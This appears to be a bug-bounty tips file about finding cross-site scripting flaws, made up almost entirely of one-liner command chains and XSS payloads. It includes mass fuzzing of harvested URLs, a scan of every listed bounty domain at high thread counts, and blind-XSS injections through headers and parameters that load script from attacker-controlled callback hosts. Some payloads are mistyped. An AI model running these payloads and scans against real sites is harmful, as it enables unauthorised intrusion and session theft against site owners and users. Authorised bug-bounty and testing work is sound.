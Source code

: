 
# 				XSS-Bug bounty tips

## TIP 1:
	
	1- Find Parameter and test any reflection on response.
	2- Try to find hidden input: [Here you can find blog to find hiddne parameter/input fields](https://portswigger.net/research/xss-in-hidden-input-fields)
	3- Find sink source for DOM XSS
	4- FInd any local stoage in jvascript.
	5- Test in cookie 
	6- Test in userAgent \ Header Injection
	
	If <script> - payload blocked by WAF; then try it -- ( sr<script>b1mal )


Find XSS with automation:
```bash
 echo http://example.com | waybackurls | gf xss | uro | qsreplace '"><img src=x onerror=alert(1);>' | freq
install freq: - go get -u https://github.com/takshal/freq

  echo http://testphp.vulnweb.com | waybackurls | gf xss | uro | httpx -silent | qsreplace '"><svg onload=confirm(1)>' | airixss -payload "confirm(1)"
 AirisXSS - Insatallation : https://github.com/ferreiraklet/airixss

 XSpear -u "http://domain.com/dir.php?param=123" -v 1

	success?next_url=javascript%3Aalert%2F**%2F(document.domain)
```

 ## TIP- 2:
       
      First you need to gather subdomain of target:
      $ subfinder -d example.com -o subdomain.txt
  
      The Next process was to find the number of sub-domains which are active,
      $ cat subdomains.txt | httprobe | tee -a host.txt

      Now gather some endpoint to the host.txt
      $ cat host.txt | waybackurl | tee -a endpoint.txt
   
      started to fuzz all the parameters to find xss vulnerability with the help of the tool qsreplace.
      $ cat endpoint.txt | qsreplace ‘“><img src=x onerror=alert(1)> | tee -a xss_fuzz.txt

      After executing the command now, I had to check the number of parameters have been reflecting our
        payload into a plain text weather or not.

      $ cat xss_fuzz.txt | freq | tee -a possible_xss.txt
      
            
      
## TIP-3:

      Oneliner XSS automation by 
     @BountyOverflow
 ```bash
 echo http://target.com | waybackurls | grep "=" | egrep -iv ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|icon|pdf|svg|txt|js)" | uro | qsreplace '">		<img src=x onerror=alert(1);>' | freq
```

## Finding XSS with onliner commadnline:
```bash
 echo www.example.com | httpx -silent | hakrawler -subs | grep "=" | qsreplace '"><svg onload-confirm(1)>' | airixss -payload "confirm(1)" | egrep -v 'Not'

echo http://target.com | waybackurls | grep "=" | egrep -iv ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|icon|pdf|svg|txt|js)" | uro | qsreplace '">	<img 		src=x onerror=alert(1);>' | freq 

go run main.go test.php.vulnweb.com | tee testphp1.txt | qsreplace '"><script>confirm(1)</script>' | tee combinedfuzz.json && cat 
combined.json | while read host do ; do curl --silent --path-as-is --insecure "$host" | grep -qs "<script>confirm(1)" && echo "$host \033[0;31mVulnerable\n"
```

 Find XSS Tips:
 -------------
```bash
$ wget https://raw.githubusercontent.com/arkadiyt/bounty-targets-data/master/data/domains.txt -nv ; cat domains.txt | anew | httpx -silent -threads 500 | xargs -I@ dalfox url @

$ gospider -S targets_urls.txt -c 10 -d 5 --blacklist ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt)" --other-source | grep -e "code-200" | awk '{print $5}'| grep "=" | qsreplace -a | dalfox pipe | tee result.txt

$ waybackurls http://testphp.vulnweb.com | gf xss | sed 's/=.*/=/' | sort -u | tee Possible_xss.txt && cat Possible_xss.txt | dalfox -b http://blindxss.xss.ht pipe > output.txt
	 
$ waybackurls http://testphp.vulnweb.com| grep '=' |qsreplace '"><script>alert(1)</script>' | while read host do ; do curl -s --path-as-is --insecure "$host" | grep -qs "<script>alert(1)</script>" && echo "$host \033[0;31m" Vulnerable;done
	
```

```bash
# Oneliner XSS at scale 
cat domainlist.txt | subfinder | dnsx | waybackurl | egrep -iv ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt|js)" | uro  | dalfox pipe -b http://your.xss.ht -o xss.txt
```



## Blind XSS at scale 🔥🔥🔥
```bash
cat roots.txt | waybackurls | httpx -H "User-Agent: \"><script src=$YOUR_XSS_HUNTER></script>" 

#And monitor your xss hunter dashboard  
```
**Automate Blind-XSS**

**Match-& Replace burp suite option will use here Either you can use as automation with command line tool-**

1 - [Clne this tool](https://github.com/Leoid/MatchandReplace)

2- python generate.py -f parameters.txt -c "Blind-XSS" --rule "request_param_name" --replace https://abdulrahman2x.xxt  -x -o blind-xss.json

3- After getting your blind-xss output then add into your burp - IN Match & Replace section

4- Now after set parameter in burp then we need send urls to out burp to check blind xss. 

5- gospider -S hosts.txt -a -w --sitemap -r -c 100 -d 8 -p http://127.0.0.1:8080 

**Same as SSRF**


 

 








